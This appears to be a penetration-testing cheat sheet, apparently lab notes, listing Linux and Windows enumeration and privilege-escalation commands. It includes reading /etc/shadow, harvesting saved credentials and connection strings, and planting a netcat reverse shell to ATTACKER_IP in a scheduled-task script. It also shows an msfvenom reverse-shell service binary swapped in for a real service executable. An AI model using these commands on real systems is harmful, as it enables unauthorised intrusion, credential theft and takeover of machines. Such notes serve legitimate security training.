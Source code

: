 ls /etc/*-release

hostname / who / whoami / w / id / last / sudo -l

cat /etc/passwd / cat /etc/resolv.conf / cat /etc/shadow

/etc/group

ls -lh /var/mail/

dpkg -l / dpkg -qa

ip a s

sudo netstat -plt / sudo netstat -atupn / sudo lsof -i / sudo lsof -i :25

ps axf / ps -f / ps aux / ps -ef | grep peter

# Windows Enum #

systeminfo / whoiam / whoami /priv / whoami /groups / net user / net group / net localgroup / net localgroup administrators / net accounts / net accounts /domain

ipconfig / netstat -abno

wmic qfe get Caption, Description

net start

wmic product get name,version,vendor

snmpcheck 10.10.10.10 -c Community

snmpwalk -v1 -c public 10.10.10.10

# Windows Priv #

C:\Unattend.xml / C:\Windows\Panther\Unattend.xml / C:\Windows\Panther\Unattend\Unattend.xml / C:\Windows\system32\sysprep.inf / C:\Windows\system32\sysprep\sysprep.xml

type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

cmdkey /list / runas /savecred /user:admin cmd.exe

type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

schtasks / schtasks /query /tn vulntask /fo list /v / icacls: / icacls c:\tasks\schtask.bat

echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

sc qc apphostsvc

icacls C:\PROGRA~2\SYSTEM~1\WService.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe / cd C:\PROGRA~2\SYSTEM~1\ / move WService.exe WService.exe.bkp / move C:\Users\thm-unpriv\rev-svc.exe WService.exe / icacls WService.exe /grant Everyone:F
